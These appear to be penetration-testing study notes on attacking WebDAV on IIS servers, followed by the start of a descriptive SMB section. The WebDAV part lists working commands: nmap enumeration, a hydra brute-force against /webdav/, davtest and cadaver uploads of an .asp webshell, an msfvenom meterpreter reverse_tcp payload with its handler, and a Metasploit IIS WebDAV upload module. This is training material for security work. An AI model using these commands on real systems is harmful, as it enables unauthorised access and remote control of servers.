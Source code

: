 - The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
    - nmap scan with version detection and default scripts
    - *nmap -sV -p 80 --script=http-enum* target

- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
    - *hydra -L userlist -P passlist* target *http-get /webdav/*

- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.
    - *davtest -auth login:pass -url* target
    - **cadaver** target
    - webshell:
        - kali linux: /usr/share/webshells/asp, etc.

### WebDAV Metasploit

1. Method: 

    **msfvenom**

    - *msfvenom -p windows/meterpreter/reverse_tcp LHOST=youripaddress LPORT=yourport -f asp > shell.asp*

    Then in msfconsole:
 
        > use multi/handler

        > set payload windows/meterpreter/reverse_tcp (same as created by msfvenom)

2. Method (faster):

    msfconsole:

        > use exploit/windows/iis/iis_webdav_upload_asp

### Tools

- **davtest** - Used to scan, authenticate and exploit a WebDAV server.
    + Pre-installed on most offensive penetration testing distributions like Kali
and Parrot OS.
- **cadaver** - cadaver supports file upload, download, on-screen display, in- place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.
    + Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.

## SMB

- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
- SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
- SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
